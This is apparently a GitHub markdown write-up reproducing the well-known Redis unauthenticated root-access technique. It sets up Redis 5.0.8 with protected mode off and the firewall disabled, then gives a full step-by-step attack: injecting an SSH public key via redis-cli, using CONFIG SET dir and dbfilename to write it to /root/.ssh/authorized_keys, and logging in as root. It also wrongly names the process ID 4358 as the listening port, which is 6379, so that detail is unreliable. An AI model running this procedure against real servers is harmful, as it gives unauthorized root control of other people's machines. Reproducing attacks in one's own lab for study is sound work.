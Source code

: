 # Redis Get Shell Vulnerability Reproduction #

## Deploy Redis ##

``` shell
root@server:~# wget http://download.redis.io/releases/redis-5.0.8.tar.gz
root@server:~# tar xzf redis-5.0.8.tar.gz
root@server:~# cd redis-5.0.8
root@server:~/redis-5.0.8# make
root@server:~/redis-5.0.8# make install
```

And we change nothing of `redis.conf`, using its default setting, disabling protected mode.

## Fire Up Redis ##

``` shell
root@server:~# redis-server --daemonize yes --protected-mode no
```

See which address Redis is listening

``` shell
root@server:~# netstat -tulpn | grep redis
tcp        0      0 0.0.0.0:6379            0.0.0.0:*               LISTEN      4358/redis-server *
tcp6       0      0 :::6379                 :::*                    LISTEN      4358/redis-server *
```

The output showed that Redis is listening `0.0.0.0:4358`

## Turn off Firewall ##

On Ubuntu server:

``` shell
root@server:~# ufw disable
```

On CentOS server:

``` shell
root@server:~# systemctl stop firewalld
```

Or you may allow port 4358 instead.

## Attack Procedure ##

I assume that you have already had an ssh key, and the public key is located in `~/.ssh/id_rsa.pub`, the private key is located in `~/.ssh/id_rsa`.

We connect our Redis server without password:

``` shell
[hxp@hxp-arch ~]$ redis-cli -h 142.**.***.32
```

The connection was successful. Then we can push our ssh key to server by

``` shell
[hxp@hxp-arch ~]$ (echo -e "\n\n";cat ~/.ssh/id_rsa.pub;echo -e "\n\n") | redis-cli -h 142.**.***.32 -x set ssh-key
```

Log back to see if our injection was successful

``` shell
[hxp@hxp-arch ~]$ redis-cli -h 142.**.***.32
142.**.***.32:6379> get ssh-key
"ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCuQgS2UfoevBjEX7UTgpSPWx1aBHqMmynjK417hsz9UXNQNesKq/T****************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************= ********@***********\n"
142.**.***.32:6379> 
```

Then we detect which user Redis is running as

``` shell
142.**.***.32:6379> CONFIG GET dir
1) "dir"
2) "/root"
```

Fortunately Redis is running as root.

The last thing we need to do was to set our database file to `/root/.ssh/authorized_keys`, and save.

``` shell
142.**.***.32:6379> CONFIG SET dir /root/.ssh
OK
142.**.***.32:6379> CONFIG SET dbfilename authorized_keys
OK
142.**.***.32:6379> save
OK
142.**.***.32:6379> exit
```

After that, the ssh public key should be saved in `/root/.ssh/authorized_keys`

Log in to the server:

``` shell
[hxp@hxp-arch ~]$ ssh -i ~/.ssh/id_rsa root@142.**.***.32
```

Success. And we can see that our public key is inserted in `/root/.ssh/authorized_keys`

``` shell
root@server:~# cat /root/.ssh/authorized_keys 
REDIS0009�      redis-ver5.0.8�
�edis-bits�@�ctime�x��^used-mem¸
 aof-preamble���ssh-keyBD


ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCuQgS2UfoevBjEX7UTgpSPWx1aBHqMmynjK417hsz9UXNQNesKq/T****************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************= ********@***********



�=��u���root@server:~# 

```

